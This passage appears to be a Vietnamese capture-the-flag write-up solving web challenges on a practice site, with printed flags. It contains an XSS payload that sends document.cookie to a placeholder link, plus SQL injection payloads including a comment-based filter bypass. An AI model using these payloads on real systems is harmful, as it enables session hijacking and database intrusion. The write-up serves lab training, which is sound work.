 ```<script>document.write("<img src='your_link/"+document.cookie+"'>");</script>```

> ![image](https://user-images.githubusercontent.com/90112096/140525948-a66b16c8-7c85-4bcf-bc71-455dcb2b3c51.png)

**FLAG{5b7eca261028a4042fde4e3f45dec294}**

### Bài 3: ÉT QUY EO 
Đây là một lỗ hổng rất cơ bản nhưng lại dễ dàng bị bỏ qua trong quá trình phát triển ứng dụng.

Lỗ hổng này nguy hiểm tới mức cho phép các h@cker lấy quyền quản trị của website, thay đổi nội dung, lợi dụng để ăn cắp các thông tin nhạy cảm, hoặc thậm chí làm bàn đạp tấn công chiếm quyền quản trị toàn hệ thống.

Đây là phương thức tấn công yêu thích của Hacker khi lần đầu tiếp cận với website của bạn

> http://chal13.web.letspentest.org/

### ***Cách giải:***

Bước 1: Như tên đề thì mình biết rằng đây là lổ hổng SQL, việc mình làm là đi tìm SQL Injection Payload

> https://github.com/payloadbox/sql-injection-payload-list

Bước 2: Sau khi thử vài cái thì mình sử dụng được payload 

```' OR 1 -- -```

> ![image](https://user-images.githubusercontent.com/90112096/140526515-b5489f40-d968-42ca-9e22-056d9ad783ad.png)

Bước 3: Sau đó mình decode đoạn " RmxhZ3tGcjMzX1N0eWwzfQ== " sang ASCII và lấy được flag

> ![image](https://user-images.githubusercontent.com/90112096/140526622-2ed4008b-61bc-470b-b214-b7ff96553ebb.png)

**Flag{Fr33_Styl3}**

### Bài 4: SQL FILTER 
> http://chal14.web.letspentest.org/

### ***Cách giải:***

Bước 1: Sau khi kiểm tra thì mình thấy không thể xài payload cũ được nữa nên mình dùng BurpSuite để xem đã bị lọc bớt kí tự nào

> ![image](https://user-images.githubusercontent.com/90112096/140527183-eaa06f44-2071-496f-b4f8-28dd06ca8e9d.png)

Bước 2: Payload của ta được gửi là "%27+OR+1+--+-" hay nói cách khác là payload đã bị lượt bỏ đi dấu cách

> ![image](https://user-images.githubusercontent.com/90112096/140527310-0e497524-01d6-4fc7-b3d2-3ff871ec5b97.png)

Bước 3: Tiếp theo mình đi tìm SQL Filter ByPass

> https://portswigger.net/support/sql-injection-bypassing-common-filters

Bước 4: Sau đó, gửi lại payload và ta nhận được flag 

```'/**/OR/**/1/**/--/**/-```

```